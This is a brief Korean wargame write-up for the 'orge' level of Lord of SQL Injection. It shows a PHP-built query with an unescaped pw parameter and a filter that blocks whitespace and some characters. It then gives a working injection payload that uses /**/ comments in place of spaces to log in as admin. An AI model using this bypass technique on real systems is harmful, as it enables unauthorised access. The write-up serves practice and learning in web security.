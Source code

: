 ```yaml
---
title: "[LOS] orge"
date: 2025-03-26 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_orge where id='guest' and pw='{$_GET[pw]}'
```

<br>

# Protection

## preg_match

- `prob` 문자열
- `_`
- `.`
- `()`
- ` ` (white space)

<br>


# Analysis

- 공백 문자 대신 주석 `/**/`을 사용할 수 있다.

<br>

# Payload

```
?pw='or/**/id='admin'/**/%23
```
